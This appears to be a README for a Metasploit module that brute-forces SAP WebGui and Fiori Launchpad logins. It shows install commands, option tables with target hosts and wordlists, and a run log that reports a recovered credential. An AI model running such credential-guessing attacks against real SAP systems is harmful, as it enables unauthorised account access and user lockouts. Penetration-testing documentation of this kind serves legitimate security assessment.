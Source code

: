 # SAP WebGui & SAP Fiori Launchpad brute-force module for Metasploit

This module is written for the Metasploit Framework to brute-force SAP WebGui and SAP Fiori Launchpad.
It heavly base on the original module found in the root of the repository.

While using this module, please keep in mind, that SAP does not allow more than 99 failed logins until a user get locked out. (Parameter: `login/fails_to_user_lock`)

## Installation

Download the metasploit module and copy it into the custom modules path
```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/sap/
cp sap_web_bruteforce.py ~/.msf4/modules/auxiliary/scanner/sap/
```

## Usage

- Start Metasploit Framework
```bash
msfconsole -q
```
- switch to the module
```bash
use auxiliary/scanner/sap/sap_web_bruteforce
```

### Example configuration SAP Fiori Launchpad
```text
Module options (auxiliary/sap/sap_web_bruteforce):

   Name        Current Setting                          Required  Description
   ----        ---------------                          --------  -----------
   BRUTE_MODE  fiori                                    no        Which endpoint you want to attack (webgui/fiori)
   PASS_FILE   /opt/wordlists_custom/sap_passwords.txt  yes       Wordlist with passwords
   RHOSTS      192.168.77.4                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file
                                                                  :<path>'
   RPORT       50001                                    yes       Target port
   SAP_CLIENT  001                                      no        Target SAP client
   SAP_SID     A4H                                      yes       Target SAP SID
   SSL         True                                     yes       use SSL (true/false)
   TARGETURI   /sap/bc/ui2/flp                          yes       The base path
   THREADS     1                                        yes       The number of concurrent threads (max one per host)
   USER_FILE   /opt/wordlists_custom/sap_users.txt      yes       Wordlist with usernames
```

### Example configuration SAP WebGui
```text
Module options (auxiliary/sap/sap_web_bruteforce):

   Name        Current Setting                          Required  Description
   ----        ---------------                          --------  -----------
   BRUTE_MODE  webgui                                   no        Which endpoint you want to attack (webgui/fiori)
   PASS_FILE   /opt/wordlists_custom/sap_passwords.txt  yes       Wordlist with passwords
   RHOSTS      192.168.230.30                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file
                                                                  :<path>'
   RPORT       8000                                     yes       Target port
   SAP_CLIENT  001                                      no        Target SAP client
   SAP_SID     XYZ                                      yes       Target SAP SID
   SSL         false                                    yes       use SSL (true/false)
   TARGETURI   /sap/bc/gui/sap/its/webgui               yes       The base path
   THREADS     1                                        yes       The number of concurrent threads (max one per host)
   USER_FILE   /opt/wordlists_custom/sap_users.txt      yes       Wordlist with usernames
```

### Run the module

```bash
msf6 auxiliary(sap/sap_web_bruteforce) > run

[*] Running for 192.168.230.30...
[*] Valid credential ddic:Security123
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```